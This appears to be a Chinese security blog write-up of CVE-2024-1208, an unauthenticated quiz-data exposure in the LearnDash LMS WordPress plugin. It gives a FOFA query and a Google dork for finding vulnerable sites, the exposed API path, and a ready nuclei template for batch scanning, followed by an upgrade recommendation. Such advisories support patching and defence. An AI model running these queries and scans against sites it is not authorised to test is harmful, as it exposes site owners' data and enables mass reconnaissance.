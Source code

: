 #  CVE-2024-1208   
原创 fgz  AI与网安   2024-03-26 00:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WordPress Plugin LearnDash LMS 敏感信息暴漏  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WordPress Plugin LearnDash LMS <= 4.10.2  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tzT28bX5pQVTUf7VtV0xiaiaj9z5GyKlPrKQuAd07bTOzZBFFPglQ0Flg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WordPress和WordPress plugin都是WordPress基金会的产品。  
WordPress是一套使用PHP语言开发的博客平台。  
该平台支持在PHP和MySQL的服务器上架设个人博客网站。  
WordPress plugin是一个应用插件。  
  
WordPress Plugin LearnDash LMS 4.10.2及之前版本存在安全漏洞，该漏洞源于容易通过API暴露敏感信息，未经身份验证的攻击者可以访问测验问题。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"/wp-content/plugins/sfwd-lms"
```  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
漏洞路径如下  
```
/wp-json/wp/v2/sfwd-question
```  
  
使用浏览器访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BONv2Kz3w3fGe5t5GGJ2ic6tXicuqm3vhTic03ibIAk9hibOvQJ8j64aMnlbHU4KP35nuvZUt0JHDDD14w/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量漏洞扫描 poc  
  
  
nuclei 已发布poc，文件内容如下  
```
id: CVE-2024-1208

info:
  name: LearnDash LMS < 4.10.3 - Sensitive Information Exposure
  author: ritikchaddha
  severity: medium
  description: |
    The LearnDash LMS plugin for WordPress is vulnerable to Sensitive Information Exposure in all versions up to, and including, 4.10.2 via API. This makes it possible for unauthenticated attackers to obtain access to quiz questions.
  remediation: Fixed in 4.10.3
  reference:
    - https://github.com/karlemilnikka/CVE-2024-1208-and-CVE-2024-1210
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1208
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/ae735117-e68b-448e-ad41-258d1be3aebc?source=cve
    - https://github.com/nomi-sec/PoC-in-GitHub
    - https://github.com/fkie-cad/nvd-json-data-feeds
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
    cvss-score: 5.3
    cve-id: CVE-2024-1208
    epss-score: 0.01024
    epss-percentile: 0.83462
    cpe: cpe:2.3:a:learndash:learndash:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 1
    vendor: learndash
    product: learndash
    framework: wordpress
    publicwww-query: "/wp-content/plugins/sfwd-lms"
    googledork-query: inurl:"/wp-content/plugins/sfwd-lms"
  tags: cve,cve2024,wp,wp-plugin,wordpress,exposure,learndash

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-json/wp/v2/sfwd-question"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":'
          - '"question_type":'
          - '"points_total":'
        condition: and

      - type: word
        part: header
        words:
          - 'application/json'

      - type: status
        status:
          - 200
# digest: 490a0046304402203916aaf1a8ee1aac0dd4cf38919e9f2e19085f8ccbbed45a47c932c1b491fb1302207bed484d250b4815723b4f03051d6f9f02504d362be0b2f60b4c99d8e8ff2ed3:922c64590222798bb761d5b6d8e72950
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
